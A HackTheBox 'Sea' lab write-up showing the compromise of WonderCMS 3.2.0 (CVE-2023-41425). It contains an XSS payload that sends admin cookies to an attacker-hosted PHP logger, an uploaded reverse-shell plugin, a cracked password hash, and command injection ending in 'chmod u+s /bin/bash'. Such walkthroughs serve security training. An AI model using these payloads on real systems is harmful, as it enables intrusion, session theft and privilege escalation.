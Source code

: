 ```yaml
---
layout: post
title: "Sea"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [htb, writeup, linux, web]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


as always starting with nmap

```bash
sudo nmap -sC -sV -p- -oN sea 10.10.11.28
```
![nmap_sea.png](/source/SEA/Pasted image 20240813000337.png)

another htb box , another website

nothing interesting in the website so , let's move to fuzzing

```bash
feroxbuster  --url http://10.129.115.194 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,404
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813000823.png)

the license page 
```
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813001042.png)

so we are dealing with WondwerCMS

this CVE is interesting since we are on version 3.2.0 (check http://sea.htb/themes/bike/version) [CVE](https://github.com/prodigiousMind/CVE-2023-41425 )


this script exploit  an xss to steal credential then use this creds to uplaod backdoored files

I will use the same plugins used in this exploit
```bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

we need to  change the `rev.php` file on the zip 

```php
$VERSION = "1.0";
$ip = 'UR OWN IP'; // CHANGE THIS
$port = 1337;
```


then I  will host a web server

```bash
php -S 0.0.0.0:80
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813003150.png)

```bash
python3 exploit.py http://sea.htb/loginURL 10.10.14.224 1337
```

we need to find out a way to  send the link to the admin , since the web app is using `php`` let's fuzz for the .php file

```bash
feroxbuster  --url http://10.129.115.194  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,400 -x php 

```
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813003629.png)

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023000.png)

once we fill the form , with the malicious link in the website field

```url
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.224/script.js"></script><form+action="
```

in the `script.js`
```javascript
new Image().src='http://IP/index.php?c='+document.cookie
```

in the `index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


we will get the admin cookie in our web server
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023404.png)
changing the cookies , guarantee more privilege in the website , we can now upload plugin

we can install our malicious plugins now , by tampering with the request sent from this button
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813023604.png)

```HTTP
GET /?installModule=http://IP/main.zip&directoryName=violet&type=themes&token=a5d00073e50332dd0ca6d448d4ccddc9449c7ae27828bb35cee8112d67debd58 HTTP/1.1
```

by visiting http://sea.htb/themes/revshell-main/rev.php

we should get shell on our listener 
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813024341.png)

this file got my intention
`/var/www/sea/data/database.js`
if we check his content we will find a hash
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

we need to remove the escapers to crack it
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
```

```bash
hashcat -a 0 -m 3200 --show hash                                       
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

this password got us  the  user `amay`

another website is running on the port 8080 
```
amay@sea:~$ netstat -ntlp 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080 ---
```

```bash
amay@sea:~$ curl 127.0.0.1:8080
Unauthorized access
```

I will reuse the password of amay
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025058.png)

I will forward  the port 8080 to my machine , so I can see what's going on in this website

```
ssh -L 7000:localhost:8080 amay@sea.htb -N
```
 on http://127.0.0.1:7000/
 ![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025643.png)

I tried to read files , like `/root/root.txt` but that didn't work 
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813025715.png)
so I tried to inject malicious command 

to confirm that , I will ping myself
first listen on the pings
``
```bash
sudo tcpdump -i  tun0 icmp
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;ping+-c+1+10.10.14.224&analyze_log=
```

this works
![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030024.png)

I will run
```
chmod u+s /bin/bash
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68&analyze_log=
```

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030229.png)

![/home/user/myblog/_site](/assets/img/posts/SEA/Pasted image 20240813030247.png)
